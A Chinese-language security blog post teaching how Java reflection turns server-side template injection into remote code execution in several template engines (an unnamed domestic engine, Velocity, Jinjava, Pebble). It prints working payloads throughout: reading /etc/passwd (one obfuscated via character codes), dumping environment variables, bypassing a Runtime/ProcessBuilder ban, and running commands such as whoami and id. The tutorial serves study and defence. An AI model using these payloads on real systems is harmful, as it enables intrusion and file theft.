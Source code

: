 ```yaml
---
layout:    post
title:     Java安全之反射篇(3)
subtitle:  学习学习
date:      2021-11-19
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tags:

   - Java
---
```


## 反射篇(3)

> 通过前两章的了解，我们对Java反射机制有了一定的认知。本章作为反射篇的最终章，如果从反序列化的层面来说Java反射的具体危害，需要一些反序列化的基础知识。故我们从反射机制本身来说，它的一个经常被使用的点-Server-Side Template Injection(简称 SSTI)，中文名服务器端模板注入。

### SSTI

模板引擎被广泛应用于Web应用程序中，通过网页和电子邮件呈现动态数据。将用户输入内容不安全嵌入到模板中，实现服务器端模板注入。SSTI极易被误认为是跨站点脚本(XSS),大多数人经常与之擦肩而过。与XSS不同的是，模板注入可以用于直接攻击Web服务器内部，并经常获得远程代码执行(RCE)。模板注入可以通过开发人员的错误配置，通过故意暴露模板，开发人员试图通过其来提供丰富的功能，就像维基、博客、营销应用和内容管理等系统。

先看通用的Java SSTI的payload，payload中的``T``通常是需要声明的变量，每一个模板引擎都不同。在这里，我们不难发现已经可以看到反射的**"影子"**了，下面会从每一个模板来具体分析介绍任何使用反射从``SSTI``到``RCE``。

1.获取系统环境变量：

```java
${T(java.lang.System).getenv()}
```

2.读取文件内容：

```java
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

### Template

> 这里的模板引擎是国内的模板引擎，漏洞还未必收录，故暂不公布，这里只做学习研究。如果你无无意中接触过这个模板，如果你认出这个模板，那么恭喜你获得0day一枚。笔者有一个请求，如果你认出了，就不要公布了，0day你自己知道就好了。此款模板引擎禁止使用了``java.lang.Runtime``和``java.lang.ProcessBuilder``类的使用，使用Java的反射机制完美的bypass。

#### payload构造

```java
${@java.lang.Class.forName("java.lang.Runtime").getMethod("exec", 
@java.lang.Class.forName("java.lang.String")).invoke(
@java.lang.Class.forName("java.lang.Runtime").getMethod("getRuntime", null).invoke(null, null), "calc")}
```

1.我们且看第一行，按照上面给出的简单案例方法，我们应该这样子就可以了``@java.lang.Class.forName("java.lang.Runtime").getMethod("exec", String.class).invoke(newInstance(), "calc")``。

2.但是直接String.class直接写模板是找不到的，所以我们得继续构造payload，将String.class转化为``@java.lang.Class.forName("java.lang.String")``的形式，然后payload就变成下面这样子了：``@java.lang.Class.forName("java.lang.Runtime").getMethod("exec", @java.lang.Class.forName("java.lang.String")).invoke(newInstance(), "calc")``。

3.按道理上面就可以直接使用了，但是呢Runtime类没有无参构造方法，因此不能使用``newInstance()``方法来实例化。只能通过调用``getRuntime()``方法来进行实例化。所以``newInstance()``得替换成``@java.lang.Class.forName("java.lang.Runtime").getMethod("getRuntime", null)``最终payload就变成了下面这个样子：

```java
${@java.lang.Class.forName("java.lang.Runtime").getMethod("exec", @java.lang.Class.forName("java.lang.String")).invoke(@java.lang.Class.forName("java.lang.Runtime").getMethod("getRuntime", null).invoke(null, null), "calc")}
```

### Velocity

> Velocity是一个基于Java的模板引擎，是隶属于Apache旗下的一个开源项目。它允许任何人使用简单而强大的模板语言来引用Java代码中定义的对象。

下面是Velocity的SSTI的payload，此时的你可能会有个疑问。payload语法好像有点奇怪？这个其实是模板语法，每一个模板引擎的语法都不同。所以，不同的模板要用不同的语法。

```velocity
#set($x="")
#set($rt=$x.class.forName("java.lang.Runtime"))
#set($chr=$x.class.forName("java.lang.Character"))
#set($str=$x.class.forName("java.lang.String"))
#set($ex=$rt.getRuntime().exec("calc"))$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))
#end
```

#### #set语法

#set语法可以创建一个Velocity的变量，#set语法对应的Velocity语法树是ASTSetDirective类，翻开这个类的代码，可以发现它有两个子节点：分别是RightHandSide和LeftHandSide，分别代表``"="``两边的表达式值。与Java语言的赋值操作有点不一样的是，左边的LeftHandSide可能是一个变量标识符，也可能是一个set方法调用。变量标识符很好理解，如前面的``#set($var="偶数")``，另外是一个set方法调用，如``#set($person.name="junshan")``，这实际上相当于Java中``person.setName("junshan")``方法的调用。

#### foreach语法

Velocity中的循环语法只有这一种，它与Java中的for循环的语法糖形式十分类似，如``#foreach($child in $person.children)``，``$person.children``表示的是一个集合，它可能是一个List集合或者一个数组，而``$child``表示的是每个从集合中取出的值。从render方法代码中可以看出，Velocity首先是取得``$person.children``的值，然后将这个值封装成lterator集合，然后依次取出这个集合中的每一个值，将这个值以``$child``为变量标识符放入context中。除此以外需要特别注意的是，Velocity在循环时还在context中放入另外两个变量，分别时counterName和hashNextName，这两个变量的名称分别在配置文件中配置项``directive.foreach.counter.name``和``directive.foreach.iterator.name``中定义，它们表示当前的循环计数和是否还有下一个值。前者相当于``for(int i=1; i<10; i++)``中的``i``值，后者相当于``while(it.hashNext())``中的``it.hashNext()``的值，这两个值在#foreach的循环体中都有可能用到。由于elementKey、counterName和hashNextName是在#foreach中临时创建的，如果当前的context中已经存在这几个变量，要把原始的变量值保存起来，以便在这个#foreach执行结束后恢复。如果context中没有这几个变量，那么#foreach执行结束后要删除它们，这就是代码最后部分做的事情，这与我们前面介绍的#set语法没有范围限制不同，#foreach中临时产生的变量只在#foreach中有效。

更多语法知识推荐[Velocity中文文档](http://www.yunshouce.com/g62/velocitydoc/11.html)。

#### 反射payload

了解语法之后，回头看payload会觉得很简单，其实就是基本的payload的构造。

```velocity
#set($x="")
#set($rt=$x.class.forName("java.lang.Runtime"))
#set($chr=$x.class.forName("java.lang.Character"))
#set($str=$x.class.forName("java.lang.String"))
#set($ex=$rt.getRuntime().exec("calc"))$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))
#end
```

把payload转化成伪代码：

```
rt = java.lang.Runtime.class
chr = java.lang.String
ex = java.lang.Runtime.getRuntime().exec("calc")
ex.waitFor()
//接着就是循环读取输出
```

### Jinjava

> Jinjava是一款开源的Java模板引擎，基于django模板语法，适用于渲染jinja模板(至少是HubSpot内容中使用的jinja子集)。目前在生产中用于渲染``HubSpot CMS``，每月有数以亿计的页面浏览量的网站。
>
> [官方GitHub地址](https://github.com/HubSpot/jinjava)

判断Jinjava是否存在SSTI漏洞的payload：

```
{{'a'.toUpperCase()}}   //回显大写A
{{request}}  //会返回一个请求对象，例如：com.[...].context.TemplateContextRequest@2354826
```

#### 反射payload

这款模板引擎的payload直接就能看出是用Java的反射机制，都是先获取的``java.script.ScriptEngineManager``类对象，然后``newInstance()``实例化，在之后创建一个``JavaScript``引擎最后执行命令。

[![IbKste.png](https://z3.ax1x.com/2021/11/19/IbKste.png)](https://imgtu.com/i/IbKste)

```java
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}


{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```

### Pebble

> Pebble是一个受Twig启发的Java模板化引擎。它以其继承功能和易读的语法从人群中脱颖而出。它内置了安全的自动缩放功能，并且包含了对国际化的集成支持。
>
> 更多内容查看[官方GitHub地址](https://github.com/PebbleTemplates/pebble)，[官方文档](https://pebbletemplates.io/wiki/guide/basic-usage/)

payload:

```
{% set cmd = 'id' %}
{% set bytes = (1).TYPE
		.forName('java.lang.Runtime')
		.methods[6]
		.invoke(null, null)
		.exec(cmd)
		.inputStream
		.readAllBytes() %}
{{ (1).TYPE
		.forName('java.lang.String')
		.constructors[0]
		.newInstance(([bytes]).toArray()) }}
```

### 总结

各大模板引擎在设计的时候，都或多或少变相禁止``java.lang.Runtime``和``java.lang.Processbuilder``类，因此使用Java的反射机制开以完全的绕过限制。想要深入学习SSTI漏洞的时候，建议看看模板引擎官方给出的文档，在结合JDK文档大多数模板引擎是开源bypass的。

**推荐一个经典案例**
 [Apache Solr 模板注入远程命令执行](https://samny.blog.csdn.net/article/details/102843715)漏洞详情
 [白头搔更短，SSTI惹人心！](https://samny.blog.csdn.net/article/details/104881477)漏洞分析